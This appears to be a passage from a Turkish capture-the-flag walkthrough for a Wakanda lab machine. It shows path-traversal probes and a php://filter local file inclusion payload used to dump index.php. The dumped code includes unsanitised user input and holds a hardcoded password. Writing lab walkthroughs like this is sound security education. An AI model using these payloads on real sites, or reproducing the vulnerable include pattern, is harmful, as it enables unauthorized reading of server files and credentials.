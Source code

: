 Siteyi ve sitenin kaynak kodunu incelediğimizde ilginç bi şey farkediyoruz.

```text
<!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
```

Yorum satırı haline getirilmiş. Bunu kullanmamız gerek. Siteye `http://192.168.56.101/index.php?lang=fr` şeklinde girdiğimizde sitenin dili değişiyor. Bu parametrenin dizin için kullanılıp kullanılmadığını kontrol etmeye çalışalım.

```text
http://192.168.56.101/index.php?lang=../
http://192.168.56.101/index.php?lang=index
http://192.168.56.101/index.php?lang=../../
http://192.168.56.101/index.php?lang=index.php
http://192.168.56.101/index.php?lang=fr
http://192.168.56.101/index.php?lang=fr.php
```

Bu şekilde verinin bir dosyadan çektiğini anlıyoruz. Muhtemelen dosyanın sadece ismini alıyor ve uzantısını kendiki ekliyor. Şu şekilde bir kod ile dosyalara ulaşabiliriz.

```text
http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index
```

Bu LFI (local file inclusion) açığıdır. Daha ayrıntılı bilgi için [buraya](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion) tıklayabilirsiniz.

Buradan `index.php` sayfasının php kodunu çekeriz. Bu kodlar base64 ile kodlanmıştır. Bunu terminalden `base64 -d` komutu ile yada herhangi bir internet sitesi üzerinden decode edebilirsiniz. Decode ettikten sonra sayfanın kaynak kodunu incelersek şu şekilde bir kaç satır ile karşılaşırız.

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
```

![resim](resimler/wakanda-1/wakanda-3.png)
